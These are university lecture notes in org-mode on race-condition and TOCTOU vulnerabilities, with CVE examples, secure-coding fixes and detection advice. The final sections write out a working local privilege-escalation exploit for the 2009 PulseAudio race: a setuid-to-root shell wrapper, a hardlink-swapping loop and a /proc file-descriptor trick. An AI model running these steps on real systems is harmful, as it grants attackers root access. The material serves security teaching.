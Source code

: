 # -*- mode: org -*-
#+date: 2018-10-31
#+TITLE: Race Conditions
#+AUTHOR: Prabhaker Mateti
#+HTML_LINK_HOME: ../../Top/index.html
#+HTML_LINK_UP: ../
#+HTML_HEAD: <style> P,li {text-align: justify} code {color: brown;} @media screen {BODY {margin: 10%} }</style>
#+BIND: org-html-preamble-format (("en" "<a href=\"../../\"> ../../</a> | <a href=./>NoSlides</a>"))
#+BIND: org-html-postamble-format (("en" "<hr size=1>Copyright &copy; 2018 <a href=\"http://www.wright.edu/~pmateti\">www.wright.edu/~pmateti</a> &bull; %d"))
#+STARTUP:showeverything
#+OPTIONS: toc:2

* Abstract  


Abstract: Race condition exploits are due to sloppy software
  development, perhaps taking second rank only to buffer overflow
  exploits.  This lecture explains the race conditions and their
  exploits, and presents a few techniques that help in
  avoiding the exploit.

* Objectives
  <ol>
  1. Present a few real life examples of race condition exploits.
  1. Describe the exploit technique
  1. Describe several techniques of exploit avoidance.
  </ol>


* Race Conditions

1. "Time of check to time of use (TOCTOU) is a class of software bug
   caused by changes in a system between the checking of a condition
   (such as a security credential) and the use of the results of that
   check. This is one example of a race condition."

1. "Temporary file race vulnerabilities occur when privileged programs
   attempt to create temporary files in an unsafe manner.  Unsafe
   means non-atomic with respect to an attacker's activities.  There
   is no portable standard for safely/ atomically creating temporary
   files, and many OS have no safe temporary file creation at all."

1. Race-Guard is a kernel enhancement that detects attempts to exploit
   temporary file race vulnerabilities, and does so with sufficient
   speed and precision that the attack can be halted before it takes
   effect.

1. RaceGuard [Cowan et al. 2002] is a secure kernel modification which
   aims to prevent the temporary file creation race condition
   exploits. It detects the pertinent changes in the file system
   between the time an application probes for a nominated temporary
   file name and the time the file is created. In a RaceGuard kernel,
   each process keeps a cache of potential temporary file races. This
   cache is just a list of file names associated with the process
   descriptor. If the process probes for a file and it is
   non-existent, the process cache is updated with the name of the
   file. If file creation hits a file that already exists, and the
   name matches a name in RaceGuard cache, then it is regarded as a
   race attack and so the open system call aborts. If the file
   creation succeeds without conflicts, then it is cleared from the
   cache. Note that RaceGuard cannot defend against the file swap type
   of attacks.

1. Race conditions arise from multiple processes/threads that operate
   on related entities in an OS that has preemptive scheduling.  Any
   good OS book will describe race conditions.  The effects are often
   an unexpected result in a computation, a deadlock, or a livelock.

1. Within user processes, almost all race conditions reduce to races
   in the file system.  Within OS kernels, race conditions are present
   in various places, e.g., in virtual memory management code.

1. Exploits based on race conditions are subtle.  They typically
   require repeated attempts within the short time period.  These
   exploits can be eliminated by understanding the ideas and
   techniques of atomicity and mutual exclusion from concurrent
   programming courses.  To keep up performance, the race condition
   eliminations have to be done after deep analyses.  Real systems
   continue to suffer from race conditions because of sloppy design
   and construction.

* Real Life Examples

** Real Life Example: PulseAudio 2009

<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1894">
CVE-2009-1894: "Race condition in PulseAudio 0.9.9, 0.9.10, and
0.9.14 allows local users to gain privileges via vectors involving
creation of a hard link, related to the application setting
LD_BIND_NOW to 1, and then calling execv on the target of the
/proc/self/exe symlink."


This exploit is further explained <a href="#PulseAudio2009">
later.


** Real Life Example: Internet Explorer 2011


<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-1257">
CVE-2011-1257: "Race condition in Microsoft Internet Explorer 6
through 8 allows remote attackers to execute arbitrary code or cause a
denial of service (memory corruption) via vectors involving access to
an object, aka 'Window Open Race Condition Vulnerability.' "



This vulnerability was discovered in Jan 2011 and a patch was released
and publicly disclosed in August 2011.  An attacker composes a web
page with malicious code and when a user visits this page, the exploit
happens.

** Real Life Example: Firefox 2007

<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-5960">
CVE-2007-5960: "Mozilla Firefox before 2.0.0.10 and SeaMonkey before
1.1.7 sets the Referer header to the window or frame in which script
is running, instead of the address of the content that initiated the
script, which allows remote attackers to spoof HTTP Referer headers
and bypass Referer-based CSRF protection schemes by setting
=window.location= and using a modal alert dialog that causes the wrong
Referer to be sent."



"... it was possible to generate a fake HTTP Referer header by
exploiting a timing condition when setting the window.location
property. This could be used to conduct a Cross-Site Request Forgery
(CSRF) attack against websites that rely only on the Referer header as
protection against such attacks."



"When navigation occurs due to setting window.location, the Referer
header is supposed to reflect the address of the content which
initiated the script.  Instead, the referer was set to the address of
the window (or frame) in which the script was running, and this
vulnerability arises from that tiny difference. Using a modal alert()
dialog Fleischer was able to suspend the attack script so that it did
not load the target URI until after the attacker's initial content had
been replaced by the intended referring page. When the Referer is set
to the current URI of the script's window it is no longer the correct
one."

** Real Life Example: Windows Shortcut-Link 2010



<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2568">
CVE-2010-2568: "Windows Shell in Microsoft Windows XP SP3, Server
2003 SP2, Vista SP1 and SP2, Server 2008 SP2 and R2, and Windows 7
allows local users or remote attackers to execute arbitrary code via a
crafted (1) .LNK or (2) .PIF shortcut file, which is not properly
handled during icon display in Windows Explorer, as demonstrated in
the wild in July 2010, and originally reported for malware that
leverages CVE-2010-2772 in Siemens WinCC SCADA systems."


Summary of the exploit code at http://www.exploit-db.com/: "The .lnk
exploitation suffers from a race condition as it executes the
downloaded dll 3 times simultaneously.  This hinders the proper
exploitation of the victim in case the payload dll tries to write any
file on the disk or tries to access and change any other resource on
the victim system.  First thing to be noted that the .lnk exploit is
actually an undocumented DLL-Injection technique.  The .lnk file will
retrieve a file of type either .dll, .cpl or .ocx or extension which
are legitimate dynamic libraries with DllMain() defined."

** Real Life Examples: Linux

1. https://www.exploit-db.com/exploits/43345/ Linux kernel < 4.10.15 -
   Race Condition Privilege Escalation 2017

1. https://program.sha2017.org/system/event_attachments/attachments/000/000/111/original/a13xp0p0v_race_for_root_SHA2017.pdf
   SHA 2017, 50+ slides.  Race for Root Analysis of the Linux Kernel Race
   Condition Exploit

1. Linux Kernel =raw_sendmsg()= Race Condition Arbitrary Code Execution
   Vulnerability CVE-2017-17712
1. Linux Kernel CVE-2017-1000405 Local Race Condition Vulnerability
1. CVE-2017-10661 Race condition in =fs/timerfd.c= in the Linux kernel 


* Race Triggering Techniques

** Time of Check/Time of Use (TOCTOU)

This section describes certain coding practices that introduce
races, and their remedies.  In all the code examples, error checks
are not shown.

An exploit that has happened enough times since the 1980s is called
the "Time of Check/Time of Use (TOCTOU)" attack: Suppose process A
checked that a certain file exists and has certain attributes before
locking the file and opening the file.  By the time A opens it, the
file could have been replaced with another.  If the time gap between
TOC and TOU is long (remember even a lowly PC can do 10 MIPS),
developing an exploit is easy.  Clever exploits work even when the gap
is short.  In modern OS on multicore CPUs, this situation has worsened
because of threads.  These are implemented as memory-sharing extremely
lightweight versions of processes.


The following elaborates the above specific example, using file
system operations, of the general pattern of TOCTOU vulnerability.

#+begin_src cpp
  int access(const char *pathname, int mode);
  FILE *fopen(const char *pathname, const char *mode);

  ...
  char pnm[] = "some/path/name";
  ...

  if (access(pnm, W_OK) == 0) {
    f = fopen(pnm, "w+");
    ...
  }
  else 
    fprintf(stderr,"You do not seem to have write access to %s.\n", pnm);
#+end_src


Recall that access() checks whether the calling process can access
the file named by pathname.  If pathname is a symbolic link, it is
dereferenced.  The check is done using the calling process's real UID
and GID, rather than the effective IDs as is done when actually
attempting an operation (e.g., open(2)) on the file.  This allows
Set-User-ID programs to determine the invoking user's privileges.


However, a process/thread switch, caused by OS scheduling policies,
may have happened after access() check but before fopen().  By the
time the fopen() is performed by the iniating process in the next
line, three things could have happened: (i) contents of the pnm[] may
have changed, (ii) the permissions/content of the file referenced may
have changed, and (iii) if the path specified was a (sym)link, the
(sym)link may have changed.  Note that (iii) is a more blatant version
of (ii).  This exploit is further explained <a href="#PulseAudio2009">
later.

** Links Soft or Hard


The following example is adapted
from <a href="https://www.securecoding.cert.org/">
https://www.securecoding.cert.org/.



Recall that the POSIX lstat()= function collects information about
a symbolic link rather than its target, in contrast to stat()=.
The open() function does follow symbolic links and includes a check on
deep links.  We check the st_mode field to determine if the given file
name is a symbolic link, and then open it if not so.

#+begin_src cpp
char *pathname = ...;
char userbuf[] = ...;
... 
struct stat statOne;
... 
if ((lstat(pathname, &statOne) == 0) && !S_ISLNK(statOne.st_mode)) {
   int fd = open(pathname, O_RDWR), nb;
   ...
   nb = write(fd, userbuf, sizeof(userbuf));
   ...
}

#+end_src



This code contains a TOCTOU race condition because both lstat and
open operate on a path name that can be manipulated asynchronously by
other processes.  We can check if an exploit happened by calling
fstat() on the file descriptor returned by open(), and comparing the
file information returned by the calls to lstat() and fstat() to
ensure that the files are the same.

#+begin_src cpp
char *pathname = ...;
char userbuf[] = ...;
... 
struct stat statOne, statTwo;
... 
if ((lstat(pathname, &statOne) == 0) && !S_ISLNK(statOne.st_mode)) {
   int fd = open(pathname, O_RDWR), nb;
   int rx = fstat(fd, &statTwo);
   if ( statOne.st_mode == statTwo.st_mode
   &&   statOne.st_ino  == statTwo.st_ino
   &&   statOne.st_dev  == statTwo.st_dev ) {
     /* no switcheroo occurred */
     ...
     nb = write(fd, userbuf, sizeof(userbuf));
     ...
  }
}

#+end_src


This code eliminates the exploit condition because fstat() is
applied to file descriptors.  Comparing i-nodes, using the st_ino
fields, modes, and devices, using the st_dev fields, ensures that the
file passed to lstat() is the same as the file passed to fstat().


We should always: (i) Check for the existence of links when dealing
with files; (ii) Canonicalize path names before validation.  Absolute
or relative path names may contain file links such as symbolic (soft)
links, hard links, short cuts, shadows, aliases, and junctions. These
file links must be fully resolved before any file validation
operations are performed.

** Temporary Files


All OS have directories that permit the creation of files within by
arbitrary processes.  On Linux, we have =/tmp/= and
=/var/tmp/=.  These have been fertile grounds for race
condition exploits.  Often an application computes updates to its
persistent database in a temporary file and then applies the updates.
Using race condition exploits, a file swap can be made.



On a system that needs to be secure, the /tmp and /var/tmp should
be separate partitions mounted with nosuid and noexec options.  In
general: Create temporary files securely.  Remove temporary files
before termination of the process.  Do not create temporary files in
shared directories.

** Threads and Processes

When forking a process, file descriptors are copied to the child
process which can result in concurrent operations on the file.  This
can cause data to be read or written in a non-deterministic order,
creating race conditions and unpredictable behavior.  We should close
the file descriptor in the child after forking and then reopen it,
ensuring that the file has not been modified in the meantime.


Do not use threads that can be canceled asynchronously.


** Signals

Avoid using signals to implement normal functionality.  Do not use
signals to terminate threads.  Do not send an uncaught signal to kill
a thread because the signal kills the entire process, not just the
individual thread.

** iNotify

The iNotify framework on Linux registers your notification hooks.
These are called when a certain event happens (e.g. creating a target
file).  There is multi-core concurrency, and the target process can
run on a different CPU-core than the exploitation process which
no longer relies on OS scheduler to switch the target at the right
moment.

** Shared Variables

Ensure that compound operations on shared variables are atomic.
Expressions that include postfix or prefix increment (++), postfix or
prefix decrement (=--=), or compound assignment operators always result
in compound operations. Compound assignment expressions use operators
such as *=, /=, %=, +=, -=, <<=, >>=, >>>=, ^= and |=.



* Detection


The general solution to race conditions is to use a locking
mechanism to prevent one process from changing a variable until
another is finished with it.
"Black box methods may be able to identify evidence of race conditions
via methods such as multiple simultaneous connections, which may cause
the software to become instable or crash.  However, race conditions
with very narrow timing windows would not be detectable.  White Box
Common idioms are detectable in white box analysis, such as TOCTOU
file operations (CWE-367), or double-checked locking (CWE-609).  Race
conditions may be detected with a stress-test by calling the software
simultaneously from a large number of threads or processes, and look
for evidence of any unexpected behavior.  Insert breakpoints or delays
in between relevant code statements to artificially expand the race
window so that it will be easier to detect."


Elimination of race conditions is near impossible because the
TOCTOU pattern is necessary in many programs.  However, we can
make exploits based on races more difficult by adding more race
conditions.  To compromise the security of the program, attackers need
to win all these race conditions.

* PulseAudio 2009 Exploit Further Explained

On Linux, PulseAudio is a network-enabled sound server.  In 2009, its
binary was installed setuid root, and did not drop privileges before
re-executing itself.  A user who has write access to any directory on
the file system containing /usr/bin can exploit the race condition
vulnerability to execute arbitrary code with root privileges.  The
immediate workaround is to ensure that the file system holding
/usr/bin does not contain directories that are writable for
unprivileged users.  This example is further explained below [from
http://blog.stalkr.net].  Note also that recent (2011+) Linux kernels
no longer permit hard links to suid-root executables.



The Pulseaudio exploit is an instance of TOCTOU.  It can be reduced
to the code shown below; let us call it vulnerable.c.

#+begin_src cpp
#include <stdio.h>

char buf[4096], * args[] = { buf, "dummyArg", 0 };

int main(int argc, char *argv[], char **envp)
{
  if (argc < 2) {
    readlink("/proc/self/exe", buf, sizeof(buf));
    usleep(1000);
    execve(args[0], args, 0);
  }
  printf("argc %d\n", argc);
  return 0;
}

#+end_src

To experience the PulseAudio race reliably, we need to find a way to
stop the execution of the process before its main().

* Example Exploit 1: Classic Race Exploitation


Here is a wrapper.c to give us a shell with euid (geteuid) as uid
(setuid).  We now open two terminals.

#+begin_src c
#include < stdio.h>
char *args[] = { "/bin/bash", 0 };
int main()
{
  int i = 0, j = geteuid();
  if (j == 0) {
    setuid(0);
    i = execv(args[0], args);
  }
  printf("euid %d i %d\n", j, i);
  return i;
}
#+end_src


In the first terminal, prepare to trigger the
race condition by creating a hard (or soft) link to the vulnerable
program, then place our program (proof-of-concept poc) under the same
filename, and loop.

#+begin_src bash
 while :; do ln -f ./vulnerable poc; ln -f ./wrapper poc; done
#+end_src 


In the second terminal, just run the hardlink. We lower the
priority of the process to increase our chances for the race condition
to be triggered.
#+begin_src cpp
 class="brush: bash">while :; do nice -n 20 ./poc; done
#+end_src We
wait and the shell should appear ..., but it can take a long
time.


* Example  Exploit 2: Use /proc File Descriptors

Create the hardlink, then open a file descriptor in the current shell to it:
#+begin_src bash
$ ln vulnerable poc
$ exec 3< ./poc
$ ls -l /proc/$$/fd/3
lr-x------ 1 stalkr stalkr 64 Nov  1 03:39 /proc/2074/fd/3 -> /home/stalkr/poc
#+end_src


It is important to realize that at this point the program has not
been started, we just have a file descriptor to the program, and a
file descriptor has all information about owner and setuid bit.

Now we delete our hardlink to the setuid program:
=$ rm -f poc=


Now if you check the file descriptor, it should have appended to its destination " (deleted)" and the link is broken:
#+begin_src cpp
$ ls -l /proc/$$/fd/3
lr-x------ 1 stalkr stalkr 64 Nov  1 03:39 /proc/2074/fd/3 -> /home/stalkr/poc (deleted)

#+end_src

On some kernels it does not change the destination, you just see
that the link is broken if you enable ls colors (green ok, red
broken).

Then just place the program you want at this destination. Here we will
just use a setuid(geteuid)+execve(/bin/sh) wrapper.  =$ mv wrapper
'poc (deleted)'= On kernels where the fd symlink has not changed its
destination, you just have to rename it to poc.


The final step is to execute the program. We do that by using shell
built-in exec on the file descriptor and it has the effect of calling
execve() on this file descriptor. But remember, this file descriptor
has root owner and setuid bit, so it executes the vulnerable program
(still on disk because it was a hardlink) with these properties. The
vulnerable program then executes itself via /proc/self/exe which now
points to our program, and we eventually get the euid root:
#+begin_src cpp
$ exec /proc/$$/fd/3
sh-4.1# id
uid=0(root) gid=1000(stalkr) groups=0(root),1000(stalkr)

#+end_src
Race won in one shot!


Update: on newer (> 2010) kernels, this exploitation technique is no
longer usable because file is renamed as (deleted) /path/to/file.

* Acknowledgements


These lecture materials are gleaned from many sources. All are
presented after careful reading. In some cases, I may have neglected
proper attribution. I assure the reader it is not because I claim
authorship. Indeed, in the lectures there is hardly any thing new that
I have contributed. Suggestions for improvement are always welcome.


* References


1. Apple.com,
   http://developer.apple.com/library/mac/#documentation/Security/Conceptual/SecureCodingGuide/
   Secure Coding
   Guide, 2012. https://www.apple.com/business/site/docs/iOS_Security_Guide.pdf
   2018  Reference.

1. 
    <a href="http://cwe.mitre.org/"> Mitre.org, CWE-362: Concurrent
    Execution using Shared Resource with Improper Synchronization ('Race
    Condition').  Required Visit.

1. Mark G. Graff and Kenneth R. van Wyk,
    Secure Coding: Principles & Practices (book),
    O'Reilly.com, 
    http://www.securecoding.org/, 2003.  Reference.

1. Eugene Tsyrklevich and Bennet Yee, "Dynamic Detection and
    Prevention of Race Conditions in File Accesses", 
    12th USENIX Security Symposium, August 2003.  Recommended Reading.

1. Race conditions in signal_handlers: 
    (i) https://www.owasp.org/ index.php/ Race_ condition_ in_ signal_ handler,
    (ii) http://lcamtuf.coredump.cx/ signals.txt.   Recommended Reading.

1. David A. Wheeler, Secure Programming for Linux and Unix HOWTO
    -- Creating Secure Software (free book)
   http://www.dwheeler.com/ secure-programs/ Section on Avoid Race
    Conditions: Recommended Reading.

1. David A. Wheeler, Prevent race conditions,
   http://www.ibm.com/developerworks/linux/library/l-sprace/index.html 2004. Recommended
   Reading.

1. Michal Zalewski, Browser Security Handbook, 2009.  <a
   href="http://code.google.com/p/browsersec/wiki/Main">
   http://code.google.com/p/browsersec/ wiki/Main Reference.


** References

1. Crispin Cowan,
   https://www2.seas.gwu.edu/~simhaweb/security/spring2009/papers/Cowan.pdf,
   Software Security for Open-Source Systems, 2009, Recommended Reading
   https://www.researchgate.net/publication/2852243_RaceGuard_Kernel_Protection_from_Temporary_File_Race_Vulnerabilities
   2002 https://slideplayer.com/slide/8541919/ 18 Slides.  Reference

1. Dirty COW:: "A race condition was found in the way the Linux
   kernel's memory subsystem handled the copy-on-write (COW) breakage
   of private read-only memory mappings.  An unprivileged local user
   could use this flaw to gain write access to otherwise read-only
   memory mappings and thus increase their privileges on the system."

** References

1. https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   The bug has existed since around 2.6.22 (released in 2007) and was
   fixed on Oct 18, 2016. Reference.

1. Matt Bishop, [[./UCDavisTR95-RaceConditionFlaw.pdf]]

1. [[./tocttou-porter.pptx]] Slides

1. https://github.com/xairy/linux-kernel-exploitation

* End
# Local variables:
# after-save-hook: org-html-export-to-html
# end:
